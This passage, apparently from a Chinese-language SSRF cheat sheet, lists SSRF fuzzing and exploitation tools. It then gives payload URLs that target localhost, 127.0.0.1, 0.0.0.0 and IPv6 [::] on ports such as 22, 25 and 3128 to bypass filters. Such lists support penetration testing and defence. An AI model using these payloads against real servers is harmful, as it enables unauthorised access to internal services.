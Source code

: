 ## 工具

- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动SSRF模糊器和利用工具
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - 生成用于利用SSRF和在各种服务器上获得RCE的gopher链接
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - 基于Python的扫描器，用于查找潜在的SSRF参数
- [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - 用Go编写的简单SSRF测试警长

* [assetnote/surf](https://github.com/assetnote/surf) - 返回一个可行的SSRF候选列表
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - 一个快速、线程安全、直接且零内存分配的工具，用于在Go中快速生成替代IP(v4)地址表示形式。

## 使用本地主机的有效载荷

* 使用`localhost`

  ```powershell
  http://localhost:80
  http://localhost:443
  http://localhost:22
  ```

* 使用`127.0.0.1`

  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:443
  http://127.0.0.1:22
  ```

* 使用`0.0.0.0`

  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:443
  http://0.0.0.0:22
  ```

## 绕过过滤器

### 使用HTTPS绕过

```powershell
https://127.0.0.1/
https://localhost/
```

### 使用[::]绕过本地主机

```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```
